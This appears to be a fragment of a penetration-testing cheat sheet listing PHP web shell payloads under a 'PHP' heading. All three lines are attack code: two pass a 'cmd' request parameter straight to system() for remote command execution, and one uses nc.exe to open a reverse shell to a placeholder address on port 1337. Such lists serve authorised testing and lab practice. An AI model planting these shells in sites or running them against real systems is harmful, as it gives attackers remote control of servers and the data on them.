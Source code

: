 - [PHP](#PHP)

### PHP
```
<?php system($_GET["cmd"]); ?>

<?php system($_REQUEST["cmd"]); ?>

<?php system('nc.exe -e cmd.exe 10.10.xx.xx 1337')?>
```

